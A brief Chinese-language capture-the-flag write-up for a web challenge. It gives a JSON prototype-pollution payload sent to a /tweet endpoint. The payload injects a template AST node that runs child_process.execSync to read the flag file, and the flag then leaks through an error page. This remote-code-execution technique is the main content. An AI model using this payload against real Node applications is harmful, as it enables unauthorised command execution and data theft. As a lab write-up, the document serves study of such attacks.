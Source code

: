 # 题目描述

Do you have an opinion? Yeah, everyone on the internet has one...

# 解决方案

打开网站发现一个上传内容的接口，路径为/tweet，数据格式为json，如{"content": "test"}，使用如下payload：

```
{
  "content": "A",
  "__proto__": {
    "block": {
      "type": "Text",
      "line": "process.mainModule.require('child_process').execSync(`cat $(cat /home/user/flag.txt)`)"
    }
  }
}
```

然后随便打开一个不存在的路径，报错信息中就会包含flag，如下图所示：

![1.PNG](solution/1.PNG)